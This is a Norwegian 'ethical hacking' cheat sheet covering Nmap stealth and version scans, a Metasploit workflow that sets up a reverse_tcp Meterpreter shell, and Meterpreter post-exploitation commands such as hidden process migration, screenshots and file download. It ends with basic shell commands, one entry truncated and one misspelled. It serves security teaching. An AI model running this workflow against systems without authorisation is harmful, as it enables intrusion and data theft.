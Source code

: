 # **Ethical Hacking 101 - Cheat Sheet**

### Nmap (Network Mapper)

Nmap er et åpen kildekode nettverksskanner verktøy brukt til å oppdage enheter og tjenester på et datanettverk, og gir sikkerhetsteam muligheten til å identifisere ulike sikkerhetssvakheter i nettverkskonfigurasjonen.

- `nmap -sS <target ip>`: Utfører en TCP SYN scan (også kjent som en "stealth scan") på målet, som prøver å finne åpne porter uten å fullføre TCP håndtrykket.
- `nmap -p 1-65535 <target ip>`: Skanner alle mulige porter (1 til 65535) på målets IP-adresse for å finne åpne tjenester.
- `nmap -sV <target ip>`: Oppdager hvilke versjoner av tjenester som kjører på åpne porter ved å sende spesifikke forespørsler og analysere svarene.
- `nmap -O <target ip>`: Prøver å bestemme operativsystemet som kjører på målet basert på karakteristikker i nettverkspakkene det svarer med.
- `nmap -sV -O -p 1-65535 <target ip>`: Kombinerer funksjonene ovenfor for en grundig skanning som identifiserer åpne porter, tjenestenes versjoner, og operativsystemet.

### Msfconsole (Metasploit Framework)

Metasploit Framework er en åpen kildekode plattform for å utvikle, teste og utføre exploits mot et mål. Det er et essensielt verktøy for sikkerhetstestere for å identifisere og utnytte sårbarheter. MERK kommandoene under må utføres i rekkefølgen de er gitt!

- `msfconsole`: Starter Metasploit Command Line Interface (CLI), som er hovedgrensesnittet for å interagere med Metasploit.
- `search <exploit>`: Brukes til å søke gjennom Metasploits database for spesifikke exploits basert på nøkkelord.
- `use <exploit>`: Velger en spesifikk exploit du ønsker å bruke fra søket.
- `set PAYLOAD <payload_name>`: Definerer hvilken payload du ønsker å sende til målet etter at exploit er vellykket. Payloads kan gi deg en shell eller annen kontroll over målsystemet. Det lønner seg og velge payloden `java/meterpreter/reverse_tcp`
- `set RHOSTS <target>`: Angir målets IP-adresse eller vertsnavn.
- `set LHOST <local>`: Setter din lokale IP-adresse, som er adressen tilbakekoblinger fra målet vil bli sendt til.
- `exploit`: Utfører den valgte exploit mot målet med den konfigurerte payloaden.
- `sessions`: Viser en liste over alle aktive sesjoner. Dette inkluderer Meterpreter-sesjoner og shell-sesjoner som du har oppnådd gjennom ulike exploits. Kommandoen lar deg se detaljer om hver sesjon, som sesjonsnummer, type, informasjon om målet, og mer.
- For å bytte til en bestemt sesjon, bruk `sessions -i <session number>`, hvor `<session number>` er nummeret på sesjonen du ønsker å bytte til.
- `session -u <session number>`: Oppgraderer en gitt shell-sesjon til en Meterpreter-sesjon. Dette er spesielt nyttig hvis du først har oppnådd en enkel kommandolinje-shell på et mål, og ønsker å utnytte de mer avanserte funksjonene som tilbys av Meterpreter. Denne kommandoen forsøker å injisere en Meterpreter-payload i den eksisterende sesjonen for å oppgradere den.

### Meterpreter

Meterpreter er en avansert payload under Metasploit som gir en interaktiv kommandolinje (shell) på målsystemet, og tilbyr omfattende kontroll over målet.

- `getuid`: Viser identiteten til brukeren som Meterpreter-sesjonen kjører under på målsystemet.
- `sysinfo`: Gir detaljert informasjon om målsystemet, som operativsystem og maskinvare.
- `migrate <PID>`: Lar deg migrere Meterpreter-prosessen til en annen kjørende prosess på målsystemet, identifisert ved dens prosess-ID (PID), noe som kan hjelpe med å opprettholde tilgangen skjult.
- `screenshot`: Tar et skjermbilde av målets skjerm, noe som er nyttig for å samle bevis eller forstå brukerens aktiviteter.
- `ps`: Viser en liste over kjørende prosesser på målsystemet, noe som er kritisk for å velge en prosess for migrering eller forstå systemets bruk.
- `download <file/path>`: Lar deg laste ned filer eller hele kataloger fra målsystemet til din lokale maskin for videre analyse.
- `background` eller `bg`: Denne kommandoen brukes for å sende den aktive Meterpreter-sesjonen til bakgrunnen. Dette er nyttig når du ønsker å fortsette å arbeide i msfconsole uten å avslutte den aktive sesjonen.

### Linux Terminal Kommandoer

Linux-terminalen er et kraftig verktøy for å navigere og administrere Linux-systemer gjennom kommandolinjen.

- `pwd`: Står for "Print Working Directory" og viser den fullstendige banen til gjeldende katalog du befinner deg i.
- `ls`: Lister opp alle filer og mapper i den gjeldende katalogen. Bruk `ls -la` for å vise detaljert informasjon inkludert skjulte filer.
- `uname -a`: Viser all tilgjengelig systeminformasjon, inkludert kernel name, versjon, og maskinarkitektur.
- `whoami`: Viser brukernavnet til den gjeldende brukeren logget inn i terminalen.
- `cd <directory>`: Endrer den gjeldende katalogen til en spesifisert katalog. `cd ..` brukes for å gå tilbake til overordnet katalog.
- `mkdir <directory>`: Oppretter en ny katalog med det angitte navnet.
- `rmdir <directory>`: Sletter en tom katalog.
- `touch <file>`: Oppretter en ny tom fil eller oppdaterer tidsstempelet på en eksisterende fil uten å endre innholdet.
- `rm <file>`: Sletter en fil. Bruk `rm -r <directory>` for å rekursivt slette en katalog og alt dens innhold.
- `cat <file>`: Viser innholdet av en fil i terminalvinduet.

### Windows Terminal Kommandolinje (CMD)

Windows CMD tilbyr kommandolinje tilgang for å utføre ulike operasjoner og administrere Windows-operativsystemet.

- `cd`: Endrer den gjeldende katalogen. `cd /` tar deg til roten av stasjonen / disken.
- `dir`: Viser en liste over filer og mapper i den gjeldende katalogen.
- `ipconfig`: Viser nettverkskonfigurasjonen, inkludert IP-adresser for alle nettverkskort. `ipconfig /all` gir detaljert informasjon om hver adapter.
- `ping <address>`: Tester nettverksforbindelsen til en spesifikk IP-adresse eller vertsnavn.
- `net user`: Viser eller endrer brukerkontoer på systemet.
- `systeminfo`: Gir detalj
- `del <file>`: Sletter en fil. Bruk `rmdir /s <directory>` for å slette en katalog og dens innhold.
- `copy <source> <destination>`: Kopierer filer fra en plassering til en annen.
- `move <source> <destination>`: Flytter filer fra en plassering til en annen.
